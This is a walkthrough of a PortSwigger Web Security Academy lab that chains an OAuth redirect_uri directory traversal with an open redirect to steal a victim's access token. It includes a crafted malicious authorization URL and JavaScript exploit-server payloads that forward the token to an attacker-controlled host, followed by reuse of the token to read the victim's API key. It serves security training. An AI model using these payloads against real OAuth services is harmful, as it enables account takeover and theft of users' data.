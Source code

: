 # Stealing OAuth access tokens via an open redirect

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect) uses an `OAuth` service to allow users to log in with their social media account. Flawed validation by the `OAuth` service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, click **My account** and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at `/me` and then uses the data it fetches to log the user in. Send the `GET /me` request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent `GET /auth?client_id=[...]` request and send it to Repeater.
4. In Repeater, experiment with the `GET /auth?client_id=[...]` request. Observe that you cannot supply an external domain as `redirect_uri` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the `/../` directory traversal sequence.
5. Log out of your account on the blog website and turn on proxy interception in Burp.
6. In your browser, log in again and go to the intercepted `GET /auth?client_id=[...]` request in Burp Proxy.
7. Confirm that the `redirect_uri` parameter is in fact vulnerable to directory traversal by changing it to:

```text
https://lab-id.web-security-academy.net/oauth-callback/../post?postId=1
```

Forward any remaining requests and observe that you are eventually redirected to the first blog post. In your browser, notice that your access token is included in the URL as a fragment.
8. With the help of Burp, audit the other pages on the blog website. Identify the **Next post** option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding `GET /post/next?path=[...]` request to Repeater.
9. In Repeater, experiment with the `path` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the `redirect_uri` pointing to the open redirect, which subsequently forwards the victim to the exploit server:

```text
https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://lab-id.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```

11. Test that this URL works correctly by visiting it in your browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
12. On the exploit server, create a suitable script at `/exploit` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:

```text
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

13. To test that everything is working correctly, **store** this exploit and visit the malicious URL again in your browser. Then, go to the exploit server access log. There should be a request for `GET /?access_token=[...]`.
14. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:

```text
<script>
    if (!document.location.hash) {
        window.location = 'https://YOUR-LAB-AUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://lab-id.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

15. To test that the exploit works, **store** it and then click **View exploit**. The page should appear to refresh, but if you check the access log, you should see a new request for `GET /?access_token=[...]`.
16. Deliver the exploit to the victim, then copy their access token from the log.
17. In Repeater, go to the `GET /me` request and replace the token in the `Authorization: Bearer` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
18. Use the **Submit solution** button at the top of the lab page to submit the stolen key and solve the lab.

## Exploitability

An attacker will need to log in to `wiener:peter`; and then identify an open redirect on the blog website; use this to steal an access token for the admin user's account; use the access token to obtain the admin's API key; and submit the solution using the button provided in the lab banner. 
